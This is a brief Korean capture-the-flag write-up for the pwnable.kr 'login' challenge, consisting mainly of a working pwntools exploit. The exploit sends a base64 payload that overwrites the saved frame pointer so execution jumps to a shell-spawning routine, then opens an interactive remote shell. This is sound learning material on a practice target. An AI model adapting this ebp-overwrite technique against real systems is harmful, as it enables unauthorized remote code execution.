 <img src="/picture/pwnable.kr/login_3.png" width="1000"/>

correct함수 내에 shell 실행 루틴이 존재한다.<br>
따라서 아래와 같이 payload를 구성하면 된다.

```python
from pwn import *
import base64

p = remote("pwnable.kr", 9003)
p.recvuntil("Authenticate : ")

# correct함수 내의 shell 실행 루틴
system = 0x08049284
# 전역변수 input 주소
ebp = 0x0811eb40

payload = b"AAAA" + p32(system) + p32(ebp)
base64_payload = base64.b64encode(payload)

p.sendline(base64_payload)

p.interactive()
```



```tip
## 알게 된 점

음..... 딱히...?
```